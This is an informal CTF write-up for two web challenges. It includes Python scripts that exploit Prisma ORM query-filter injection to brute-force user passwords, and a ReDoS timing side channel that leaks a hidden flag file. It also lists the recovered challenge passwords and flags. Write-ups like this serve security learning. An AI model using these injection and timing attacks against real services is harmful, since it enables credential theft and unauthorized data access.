


~~ill wriet this in like 12 hours idk~~ its now 1 month later masterful procrastination

# Prismatic Blogs
## overview
we're provided with two endpoints: /api/login/ and /api/posts/\
the service uses prisma database and initialize 4 users with randomized password\
our flag is in one of the 4 users' post, except it isn't published

we can't really do much with /login/, so lets check /posts/:
```js
app.get(
  "/api/posts",
  async (req, res) => {
    try {
      let query = req.query;
      query.published = true;
      let posts = await prisma.post.findMany({where: query});
      res.json({success: true, posts})
    } catch (error) {
      res.json({ success: false, error });
    }
  }
);
```
notice that our query is directly passed into findMany without any sanitizations. can we exploit that?

## solving
the key is at [this blog post](https://www.elttam.com/blog/plorming-your-primsa-orm/):\
since Post and User are linked together, we can exploit **many-to-many relationships** and leak password characters
e.g. `posts?author[name][startsWith]=White&author[password][startsWith]=a`

however since the database uses sqlite, making startsWith not support case sensitivity, we can't do much:
> By default, text fields created by Prisma Client in SQLite databases do not support case-insensitive filtering. **In SQLite, only case-insensitive comparisons of ASCII characters are possible.**

at that time I thought the only way is just do exact matches like `equals` or `in`, since they are case sensitive\
so i used... binary search... probably too overkill
```py
import requests
import time
import itertools

baseURL = 'http://35.239.207.1:3000/api/posts?author[name][startsWith]=s'
#White, Bob, Tommy, Sam

def meow(guess):
    url = guess
    response = requests.get(url)
    return response.json()['posts'] != []

known = 'AIIR7DXG3EARBQU'
characters = list(known)
combos = [''.join(combo) for combo in itertools.product(*[(char.lower(), char.upper()) if char.isalpha() else (char,) for char in characters])]

while len(combos) >= 2:
    payload = baseURL
    queue = []
    
    for i in range(len(combos)):
        guess = f'&author[password][in][]={combos[i]}'
        payload += guess
        queue.append(combos[i])

        if len(payload + guess) <= 12300 and len(queue) <= len(combos)//2 and i != len(combos)-1:
            continue

        print(f"Guessing {len(queue)} items: {queue[0]}...{queue[-1]} ({i-1}/{len(combos)})")
        if meow(payload):
            if len(queue) == 1:
                print(f'pass: {combos[i]}')

            combos = queue
            break
        
        queue = []
        payload = baseURL
```
finally we get each user's password:
white - `3PCTWJFABWPLO6QNGGS1P4`
bob - `8AXCGMISH5ZN59RSXJM`
tom - `OZUSYFPSXLWZUIPOYWETQ9`
sam - `AIIR7DXG3EARBQU`
and in bob's posts we login and find the flag:

flag: **`uoftctf{u51n6_0rm5_d035_n07_m34n_1nj3c710n5_c4n7_h4pp3n}`**

post ctf i realized i can just use `lt` to figure out the casing lmao

# CodeDB
## overview
we're given a codebase searching service, and we can query in plaintext or regex. simple as that\
our flag.txt is also one of the codefiles, except we cant see it:
```js
function initializeFiles() {
  const files = fs.readdirSync(CODE_SAMPLES_DIR);
  files.forEach(file => {
    filesIndex[file] = {
      visible: file !== 'flag.txt',
      path: path.join(CODE_SAMPLES_DIR, file),
      name: file,
      language: LANG_MAP[path.extname(file)] || null
    };
  });
  //...
```
there's two directories: /view/ do check for post visibility, so we're left with /search/

/search/ passes our query into searchWorker.js with a timeout of 1000ms\
which it checks query against every file, then filters by post visibility\
finally it returns the results, or errors if there's any.

since flag.txt is accessed before it's checked for visibility, can we do something in this timeframe?

## solving
i came across [this post about ReDoS](https://blog.huli.tw/2023/06/12/en/redos-regular-expression-denial-of-service/) eventually\
simply put, if i had a query `/(?=uoftctf{a).*.*.*.*.*!!!!/`, depending on the content of flag.txt:
- if the 1st letter isnt `a`, since regex already knows it won't match, the rest will be ignored for optimization, taking around ~50ms
- if its `a`, regex still doesn't know whether the part later matches, so it will execute the next part, which takes relatively more time (~110ms)

which i did this:
```py
import requests
import time

url = 'http://34.162.172.123:3000/search'

def send_request(guess):
    data = {"query": f"/(?={guess}).*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*!!!!/", "language": "All"}
    response = requests.post(url, json=data)
    return response.elapsed.total_seconds() * 100

charlist = list("{}_e3a4ri1o0t7ns25lcudpmhg6bfywkvxzjq89?!")

flag = 'uoftctf{'
while flag[-1] != '}':
    averages = []
    for ch in charlist:
        time_diffs = []
        for i in range(3):
            diff = send_request(flag + ch)
            time_diffs.append(diff)
        time_diffs.remove(max(time_diffs)) #remove outlier

        average = sum(time_diffs)/len(time_diffs)
        averages.append(average)
        print(f'/(?={flag+ch}).*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*!!!!/: {average}ms')
        
    flag += charlist[averages.index(max(averages))]
```
originally the time differences were inextinguishable but they fixed it. lol?

flag: **`uoftctf{why_15_my_4pp_l4661n6_50_b4dly??}`**

# end yap
couldve solved the vault chal too if only i realized e isnt 65537 lmao